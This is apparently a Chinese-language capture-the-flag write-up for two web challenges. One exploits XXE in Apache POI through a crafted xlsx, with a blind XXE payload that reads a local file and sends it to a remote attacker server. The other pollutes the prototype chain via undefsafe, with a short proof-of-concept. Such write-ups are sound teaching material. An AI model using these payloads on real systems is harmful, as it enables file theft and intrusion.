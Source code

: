 ```python
```

# filejava

存在任意文件下载，读取配置文件 /WEB-INF-web.xml

![YNta9S.png](https://s1.ax1x.com/2020/05/12/YNta9S.png)
class 位置/WEB-INF/classes/cn/abc/servlet/*.class

下载反编译得源码，在uploadservlet中存在
![YNtd1g.png](https://s1.ax1x.com/2020/05/12/YNtd1g.png)

这里用了Apache POI 3.10插件，该插件在3.1及以前存在xxe漏洞 编号CVE-2014-3529。

利用 新建exec-1.xlsx 文件，然后用压缩包打开
![YNtNh8.png](https://s1.ax1x.com/2020/05/12/YNtNh8.png)

修改xml文件，添加xxe无回现payload
![YNtttf.png](https://s1.ax1x.com/2020/05/12/YNtttf.png)

远程服务器test.data
```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://172.*.*.*/?q=%file;'>">
%int;
%send;
```

上传查看日志得flag

# notes

![YNyKOK.png](https://s1.ax1x.com/2020/05/12/YNyKOK.png)

重点代码

```javascript
const undefsafe = require('undefsafe');
edit_note(id, author, raw) {
        undefsafe(this.note_list, id + '.author', author);
        undefsafe(this.note_list, id + '.raw_note', raw);
    }
```

存在赋值操作，考虑原型链污染。猜测undefsafe存在问题

利用部分代码，可执行命令
![YNgIAS.png](https://s1.ax1x.com/2020/05/12/YNgIAS.png)

百度发现在undefsafe2.0.3以前存在安全问题（CVE-2019-10795）,如下
```javascript
var a = require("undefsafe");
var payload = "__proto__.toString";
a({},payload,"JHU");
console.log({}.toString);
```
![YNyuy6.png](https://s1.ax1x.com/2020/05/12/YNyuy6.png)
